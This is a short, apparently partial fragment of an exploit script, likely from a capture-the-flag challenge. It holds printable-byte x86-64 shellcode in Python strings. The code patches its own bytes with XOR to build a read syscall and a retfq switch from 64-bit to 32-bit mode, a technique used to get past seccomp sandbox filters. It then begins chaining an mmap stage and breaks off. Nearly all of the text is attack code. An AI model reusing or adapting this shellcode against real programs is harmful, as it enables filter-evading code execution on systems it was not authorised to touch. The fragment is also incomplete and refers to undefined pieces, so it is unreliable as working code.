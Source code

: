 ```bash
shellcode_read = '''
/*read(0,0x40404040,0x70)*/

push 0x40404040 /*set rsi*/
pop rsi

push 0x40 /*set rdi*/
pop rax
xor al,0x40
push rax
pop rdi

xor al,0x40 /*set rdx*/
push 0x70
pop rdx

/*syscall*/
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x57],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x58],cl

push rdx /*set rax*/
pop rax
xor al,0x70
'''

shellcode_retfq = '''
/*mode_64 -> mode_32*/
push rbx
pop rax

xor al,0x40

push 0x72
pop rcx
xor byte ptr[rax+0x40],cl
push 0x68
pop rcx
xor byte ptr[rax+0x40],cl
push 0x47
pop rcx
sub byte ptr[rax+0x41],cl
push 0x48
pop rcx
sub byte ptr[rax+0x41],cl
push rdi
push rdi
push 0x23
push 0x40404040
pop rax
push rax
'''

# mmap
shellcode += shellcode_mmap
shellcode += append

# read shellcode
```